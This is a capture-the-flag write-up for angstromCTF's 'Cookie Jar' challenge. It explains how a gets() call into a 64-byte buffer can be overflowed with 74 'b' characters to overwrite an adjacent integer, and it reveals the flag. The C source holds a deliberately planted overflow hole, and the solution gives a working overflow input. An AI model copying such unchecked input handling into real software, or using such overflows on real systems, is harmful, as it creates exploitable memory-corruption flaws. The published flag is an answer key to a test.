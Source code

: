 # Cookie Jar - 60 points

Note: Binary has been updated Try to break this [Cookie Jar](./cookiePublic64) that was compiled from this [source](./cookiePublic.c). Once you've pwned the binary, test it out by connecting to nc shell.angstromctf.com 1234 to get the flag.

Hint:
Look up some vulnerabilities associated with buffers.

### Solution
###### Writeup by asinggih

In order to get the flag, we need to have at least 100 cookies inside the cookie jar. However, if we input 100, it will say that we only have 0 cookies in the jar. 


```sh
❯ ./cookiePublic64 
Welcome to the Cookie Jar program!

In order to get the flag, you will need to have 100 cookies!

So, how many cookies are there in the cookie jar: 
100
Sorry, you only had 0 cookies, try again!

```

To find a way around it, we need to look at the source code provided.

```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG "----------REDACTED----------" 


int main(int argc, char **argv){
  
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	int numCookies = 0;

	char buffer[64];

	puts("Welcome to the Cookie Jar program!\n");
	puts("In order to get the flag, you will need to have 100 cookies!\n");
	puts("So, how many cookies are there in the cookie jar: ");
	fflush(stdout);
	gets(buffer);

	if (numCookies >= 100){
		printf("Congrats, you have %d cookies!\n", numCookies);
		printf("Here's your flag: %s\n", FLAG);
	} else {
		printf("Sorry, you only had %d cookies, try again!\n",numCookies);
	}
		
	return 0;
}

```
From the source code, we can see that:

* Input is being stored inside a ```char``` array variable called ```buffer```, which can hold values up to 64 bytes. 
* The cookies are stored inside an ```int``` variable called ```numCookies```, which has a default value of ```0```. 
* We can get the <b>Flag</b> when ```numCookies >= 100``` 
* However, there's no direct relation between our input which is stored in the ```buffer``` and ```numCookies```. We need to work our way around this!

The hint suggests to find buffer overflow vulnerabilities, and I did. In our case, we can exploit buffer overflow by inserting values greater than what the allocated buffer can handle (in this case the ```buffer``` array with a size of ```64```). Buffer overflow may be used to overwrite local variable located near the vulnerable buffer on the stack. In our case, this is the ```numCookies```. 

As I have mentioned earlier, we can obtain the <b>Flag</b> when ```numCookes >= 100```. I did several attempts.

* First attempt, filling up the buffer with 65  ```b```s. No luck. This is quite weird for me, since it is already greater than 64. 
	```sh
	❯ python -c 'print ("b"*65)' | ./cookiePublic64 
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Sorry, you only had 0 cookies, try again!
	```

* I kept incrementing the numbers, and finally the cookie jar starts filling up at 73. 
	```sh
	❯ python -c 'print ("b"*73)' | ./cookiePublic64 
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Sorry, you only had 98 cookies, try again!

	```
* At 74, I managed to fill the cookie jar according to the requirements and obtain the flag.
	```sh
	❯ python -c 'print ("b"*74)' | ./cookiePublic64
	Welcome to the Cookie Jar program!

	In order to get the flag, you will need to have 100 cookies!

	So, how many cookies are there in the cookie jar: 
	Congrats, you have 25186 cookies!
	Here's your flag: actf{eat_cookies_get_buffer} '
	```

Note: 
The reason behind 65 ```'b'```s not doing the trick might be due to not enough overflow to overwrite the ```numCookies``` variable. 73 ```'b'```s is the point where the overflow overwrites ```numCookies```, and 74 ```'b'```s overwrite enough values to fulfill the if condition. Look at illustration below: 

```
			       / ----- 	|-----------------------| ---\
			      /	        |    	   0	        |     \
			     / 		|-----------------------|      \
			    /		|	   0		|	\
4 bytes int numCookies <----		|-----------------------|	  ----> Concatenate the bytes 0110001001100010
			    \		|   'b' == 0b1100010	|	 /	 which converts to 25186 in decimal
			     \		|-----------------------|	/
			      \		|   'b' == 0b1100010	|      /
				\ ----	|-----------------------| ----/
					|			|
					|   Location of some    |
					|   other local var	|
					|   (now full of 'b's)	|
					|			|
				/ ----	|-----------------------| 
			       /	|			| 
			      /		|    Location of	| 
    64 bytes char buffer <----		|     char buffer 	| 
			      \		|  (now full of 'b's)	| 
			       \	|			| 
				\ ----	|-----------------------| 
					|	0x???????	| ----------> Return address of next function
					|-----------------------|
					|			|
					|	  ....		|
					|-----------------------|
						0xFFFFF

```
## Flag
>actf{eat_cookies_get_buffer}

































